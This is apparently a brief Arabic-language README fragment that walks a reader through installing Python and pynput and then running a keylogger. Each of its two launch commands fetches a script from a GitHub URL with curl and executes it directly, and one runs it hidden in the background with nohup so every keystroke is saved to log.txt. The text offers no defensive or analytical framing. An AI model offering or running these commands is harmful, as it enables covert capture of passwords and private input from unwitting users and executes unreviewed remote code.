إذا لم يكن Python مثبتًا، يمكنك تثبيته باستخدام:

sudo apt update

sudo apt install python3


بعد ذلك، تحتاج إلى تثبيت مكتبة pynput التي سنستخدمها لتسجيل ضغطات المفاتيح:
pip3 install pynput

لتشغيل الـkeylogger، استخدم الأمر التالي:

python3 <(curl -s https://raw.githubusercontent.com/osama-mousa/Keylogger/main/keylogger.py)


لتشغيله في الخلفية دون إغلاق الجلسة، يمكنك استخدام أدوات مثل nohup:

nohup python3 <(curl -s https://raw.githubusercontent.com/osama-mousa/Keylogger/main/keylogger.py) &


سيبدأ البرنامج الآن في تسجيل كل ضغطة على لوحة المفاتيح في ملف log.txt :tada: :ninja:

